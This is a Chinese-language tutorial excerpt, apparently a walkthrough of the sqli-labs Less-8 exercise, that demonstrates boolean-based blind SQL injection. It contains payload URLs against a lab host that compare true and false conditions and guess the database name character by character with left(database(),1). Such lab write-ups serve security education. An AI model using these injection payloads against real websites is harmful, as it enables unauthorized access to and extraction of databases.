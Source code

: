简单的逻辑判断为 true，页面显示正常

```bash
http://10.211.55.27/Less-8/?id=1%27%20and%201=1%20--+
```

![image-20220601144659108.png](assets/1706846040-cdb707d099fc89057d31a1b5a7009f9c.png)

当为 1=2 的时候判断为 false 所以当前页面显示异常

```bash
http://10.211.55.27/Less-8/?id=1%27%20and%201=2%20--+
```

![image-20220601144804117.png](assets/1706846040-f2289d266cb511e6089ab09b50137fd6.png)

利用这个特性我们就可以通过这个来判断我们的操作是否是正确的，根据页面的回显来判断我们的操作是否是正确的。这里是判断我们当前数据库`security`的第一个字符是否是`s`

```bash
http://10.211.55.27/Less-8/?id=1%27%20and%20left(database(),1)=%27s%27%20--+
```

![image-20220601145033548.png](assets/1706846040-dba89e931236568c016746e6882679f2.png)

我们把`s`换成`w`页面就显示异常了，实战中我们是不知道这个字符`s`的，我们可以利用 FUZZ 的手段去进行枚举。

![image-20220601145431957.png](assets/1706846040-080c62a27339f06f3adb311cabd056bd.png)

除了 left 之外还有几个函数可以用于此种场景
